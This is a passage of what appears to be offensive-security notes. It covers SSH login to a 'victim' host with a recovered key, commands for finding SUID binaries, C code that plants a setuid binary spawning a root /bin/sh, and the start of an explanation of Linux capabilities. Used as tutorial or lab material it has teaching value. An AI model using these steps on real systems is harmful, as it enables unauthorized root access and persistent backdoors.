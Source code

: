 &#x20; 5\. If successful, this will return a public key file (68b329da9893e34099c7d8ad5cb9c940-17934.pub). To use this as a private key file to connect to the victim, drop the '.pub' extension and do:

```
ssh -vvv victim@target -i 68b329da9893e34099c7d8ad5cb9c940-17934
```

After this you should be able to connect without requiring a password. If stuck, the details from `-vvv` (verbose mode) should provide enough details as to why.

## SUID Permissions

SUID (or setuid) stands for "Set user ID upon execution". If a file with this permission is ran, the user's ID will effectively be set to the file owner's (for that program only). For example, if a file with SUID permissions is owned by `root`, during the execution of that program the user ID will be changed to `root` even if it was executed from the unprivileged user `bob`. The SUID bit is represented by an `s` in the file permissions.

### Find SUID binaries

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -uid 0 -perm -4000 -type f 2>/dev/null
```

### Create a SUID binary

```bash
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # add execute permission
sudo chmod +s /tmp/suid # add suid permission

#Executing this program will give the user a root shell.  
#Note that sudo rights are required to accomplish this.
```

## File Capabilities

What are Linux capabilities?

BLUF: Capabilities break up root privileges in smaller units, so root access is no longer needed. Most of the binaries that have SUID permissions can be changed to use capabilities instead, which in turn increases security.

TODO: rewrite this for clarity and brevity

> Normally the root user (or any ID with UID of 0) gets a special treatment when running processes. The kernel and applications are usually programmed to skip the restriction of some activities when seeing this user ID. In other words, this user is allowed to do (almost) anything. Linux capabilities provide a subset of the available root privileges to a process. This effectively breaks up root privileges into smaller and distinctive units. Each of these units can then be independently be granted to processes. This way the full set of privileges is reduced and decreasing the risks of exploitation.&#x20;
>
> Why capabilities? To better understand how Linux capabilities work, let’s have a look first at the problem it tries to solve. Let’s assume we are running a process as a normal user. This means we are non-privileged. We can only access data that owned by us, our group, or which is marked for access by all users. At some point in time, our process needs a little bit more permissions to fulfill its duties, like opening a network socket. The problem is that normal users can not open a socket, as this requires root permissions.&#x20;
>